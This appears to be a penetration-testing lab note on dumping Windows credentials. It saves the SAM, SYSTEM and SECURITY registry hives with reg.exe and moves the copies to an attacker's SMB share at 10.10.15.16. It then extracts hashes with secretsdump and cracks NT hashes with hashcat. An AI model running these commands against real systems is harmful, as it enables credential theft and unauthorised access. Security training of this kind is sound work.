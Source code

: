 ## Registry hives

There are three registry hives we can copy if we have local administrative access to a target system, each serving a specific purpose when it comes to dumping and cracking password hashes. A brief description of each is provided in the table below:

|Registry Hive|Description|
|---|---|
|`HKLM\SAM`|Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.|
|`HKLM\SYSTEM`|Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.|
|`HKLM\SECURITY`|Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext passwords, DPAPI keys, and more.|

#### Using reg.exe to copy registry hives

```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

#### Creating a share with smbserver

```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

Once the share is running on our attack host, we can use the `move` command on the Windows target to transfer the hive copies to the share.

##### Moving Hive copies to share

```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

## Dumping hashes with secretsdump

```shell-session
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

the first step `secretsdump` performs is retrieving the `system bootkey` before proceeding to dump the `local SAM hashes`. This is necessary because the bootkey is used to encrypt and decrypt the SAM database. Without it, the hashes cannot be decrypted — which is why having copies of the relevant registry hives  is crucial.


## Cracking hashes with Hashcat

```shell-session
sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```


#### Running Hashcat against NT hashes
```shell-session
shakir0x00@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```